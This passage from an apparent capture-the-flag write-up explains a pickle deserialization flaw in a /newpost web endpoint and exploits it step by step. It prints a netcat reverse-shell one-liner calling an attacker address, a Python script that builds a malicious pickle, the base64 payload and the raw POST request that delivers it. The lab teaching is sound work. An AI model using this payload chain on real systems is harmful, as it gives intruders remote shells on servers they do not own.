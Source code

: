 We note here that teh debugconsole is commented out. The /newpost subdir is particularly dangerous:

1. It reads raw request body bytes: `request.data`.
2. It base64-decodes them via `base64.urlsafe_b64decode(...)`.
3. It passes the decoded bytes to `pickle.loads(...)` to deserialize into a Python object.
4. It returns a string that includes `postObj['Subject']`.
- **Why this is dangerous:** `pickle.loads()` will execute arbitrary Python code embedded in the serialized data. If an attacker can send crafted data to this endpoint they can execute arbitrary code on the server (remote code execution). This is a very high-severity vulnerability.

Let’s get it to execute a reverse shell. First we have to send a POST request to the /newpost subdir, and base64 encode our payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 4444 >/tmp/f
```

Let’s base64 encode with this script:

```bash
import pickle, base64

payload = """rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 4444 >/tmp/f"""
class temp(object):
	def __reduce__(self):
		import os
		return (os.system,(payload,))

print(base64.urlsafe_b64encode(pickle.dumps(temp())))
```

Let’s execute it as python 2:

```bash
python2 encode.py

Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNi43IDQ0NDQgPi90bXAvZicKcDEKdHAyClJwMwou
```

Let’s now start a listener:

```bash
nc -lnvp 4444
```

Let’s send a POST request to /newpost:

```bash
POST /newpost HTTP/1.1
Host: 10.10.10.91:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: text
Content-Length: 352

Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNi43IDQ0NDQgPi90bXAvZicKcDEKdHAyClJwMwou
```
